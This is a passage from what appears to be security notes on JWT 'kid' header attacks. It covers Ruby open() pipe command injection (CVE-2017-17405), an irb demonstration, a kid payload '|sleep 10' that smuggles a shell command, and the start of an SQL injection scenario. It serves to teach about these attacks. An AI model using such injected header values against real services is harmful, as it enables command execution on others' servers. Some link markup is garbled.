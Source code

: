 Ruby library Net::FTP (CVE-2017-17405)

{% code overflow="wrap" %}
```bison
Net::FTP library and the application revolves around the distinction between the usage of [`File.open](http://file.open/)(...)` and `open(...)`.

- [**File.open](http://file.open/)(....):**

open(...):
In contrast, the open(...) method, if exploited by an attacker, enables the execution of commands by using the pipe symbol (|) before the command. This can lead to command injection vulnerabilities. Example:

$ irb
irb(main):001:0> File.open("|/usr/bin/uname").read()
Errno::ENOENT: No such file or directory - |/usr/bin/uname
  from (irb):1:in `initialize'
  from (irb):1:in `open'
  from (irb):1
  from /usr/bin/irb:12:in `<main>'
irb(main):002:0> open("|/usr/bin/uname").read()
=> "Darwin\n"
```
{% endcode %}

Exploit

```json
{
    "typ": "JWT",
    "alg": "HS256",
    "kid": "|sleep 10"
}
```

### SQLi In kid Parameter

**Scenario:**

* The application uses the "kid" parameter to retrieve a secret key from a database for signing JWTs.
* An SQL injection vulnerability in the "kid" parameter allows an attacker to manipulate the SQL query and retrieve a known secret.

**Example:**

* Suppose the JWT header is as follows:

```json
{
    "typ": "JWT",
    "alg": "HS256",
    "kid": "key1"
}
```
